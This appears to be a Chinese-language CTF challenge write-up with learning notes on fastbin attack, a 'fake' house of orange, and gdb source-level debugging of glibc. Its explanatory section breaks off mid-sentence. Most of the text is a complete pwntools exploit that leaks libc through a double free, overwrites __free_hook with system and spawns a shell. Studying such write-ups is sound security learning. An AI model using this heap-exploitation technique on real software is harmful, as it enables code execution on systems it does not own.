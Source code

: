 # 知识点
- fastbin attack
- "fake" house of orange

# 收获
- gdb 源码级调试glibc
- house of orange 基本原理
## gdb 源码级调试
下载所需版本的glibc源码
```shell
sudo apt-get install libc6-dbg
sudo apt-get install glibc-source
cd /usr/src/glibc
sudo tar xvf glibc-x.xx.tar.xz
```
在gdb中使用:
```shell
dir /usr/src/glibc/glibc-x.xx/malloc
```
即可开始调试。
## house of orange 基本原理
本题的关键难点在于如何泄露libc地址。由于题目限制，无法通过malloc和free将堆块放到unsorted bin这样的双向链表中。
通过学习和调试，发现glibc在
# exp
```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context.log_level = "debug"
io = process("./pwn")#,env={"LD_PRELOAD":"./libc.so.6"}
def add(idx,size,content):
    io.sendline("1")
    io.recvuntil("index\n")
    io.sendline(str(idx))
    io.recvuntil("size\n")
    io.sendline(str(size))
    io.recvuntil("something\n")
    io.sendline(content)
    io.recvuntil("gift :")
    heap_addr = io.recvline()
    return heap_addr
def remove(idx):
    io.sendline("2")
    io.recvuntil("index")
    io.sendline(str(idx))

heap_addr = int(add(0,0x50,"/bin/sh\x00"),16)
add(1, 0x48, 'aaa\x80bbb')

top_addr = heap_addr + 160

remove(0)
remove(0)
remove(0)
add(2, 0x50, p64(top_addr)*2)
add(3, 0x50, p64(top_addr)*2)
add(4, 0x50, p64(0xf1)*2)

for i in range(8):
    remove(1)
for i in range(8):
    remove(0)

add(5, 0x78, 'aaa\x80bbb')
gdb.attach(io)
add(6, 0x78, 'aaa\x80bbb')
add(7,0x48,'emmm')

libc_base = int(add(8,0x48,p64(top_addr)*2),16)- 4111520
#libc_base = int(add(8,0x48,"123456"),16)- 4111520 #???????? this add modify top chunk addr ??
libc = ELF("./mlibc")
system_addr = libc_base + libc.symbols["system"]
free_hook = libc_base + libc.symbols["__free_hook"]
print("[+]system addr:0x%x"%system_addr)
print("[+]free_hook addr:0x%x"%free_hook)

remove(0)
remove(0)
remove(0)

add(9,0x50,p64(free_hook)*2)
add(10,0x50,p64(free_hook)*2)
add(11,0x50,p64(system_addr))
add(12,0x30,"/bin/sh\x00")
remove(12)
io.interactive()

```

# 待解决
1. 为什么`libc_base = int(add(8,0x48,"12345"),16)- 4111520`会修改topchunk的指针？